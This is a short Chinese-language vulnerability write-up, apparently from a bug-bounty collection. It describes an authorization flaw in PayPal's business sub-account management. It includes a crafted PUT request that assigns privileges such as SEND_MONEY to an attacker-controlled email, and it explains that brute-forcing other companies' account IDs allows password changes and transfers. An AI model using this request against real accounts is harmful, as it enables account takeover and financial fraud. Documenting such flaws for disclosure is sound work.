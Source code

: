 使用者在正常访问子账号功能时（[https://www.paypal.com/businessmanage/users/1657893467745278998），会产生1个PUT请求](https://www.paypal.com/businessmanage/users/1657893467745278998%EF%BC%89%EF%BC%8C%E4%BC%9A%E4%BA%A7%E7%94%9F1%E4%B8%AAPUT%E8%AF%B7%E6%B1%82)

```php
PUT /businessmanage/users/api/v1/users? HTTP/1.1
Host: www.paypal.com

[{"id":"1657893467745278998","accessPoint":{"privileges":[    "MANUAL_REFERENCE_TXN","VIEW_CUSTOMERS","SEND_MONEY"],    "id":"5994224506","accounts":["attacker@mail.com"]    },"roleID":0,"roleName":"CUSTOM",    "privilegeChanged":true,"privilegeSecondaryName":"A1"  }]
```

其中 id1657893467745278998 表示为企业账号 A，id5994224506 表示为企业自账号 A1

其中 A 账号是可以爆破的，A1 账号也是可以爆破的，通过爆破其它公司 B 的账号，再爆破下属子账号 B1，即可进行越权修改密码，转账等敏感操作

### 认证失效

上传接口使用 loadToken() 方法直接获取 Token，查看 loadToken() 方法，获取 API 路径

![image.png](assets/1699929399-6933325ad84ffe25610192be41ab4c41.png)
